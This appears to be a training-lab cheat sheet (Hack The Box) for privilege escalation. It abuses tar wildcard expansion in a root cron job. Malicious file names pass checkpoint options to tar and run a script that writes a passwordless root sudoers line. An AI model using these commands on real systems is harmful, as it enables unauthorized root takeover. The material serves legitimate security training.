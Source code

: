 # Example: tar wildcard abuse (requires vulnerable cron job)

# Create malicious files
```sh
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

# Check created files
```sh
ls -la
```

# Wait for cron job to run (check /var/log/syslog for cron job execution)

# Check sudo privileges
```sh
sudo -l
```

# If successful, escalate to root
```sh
sudo su
```

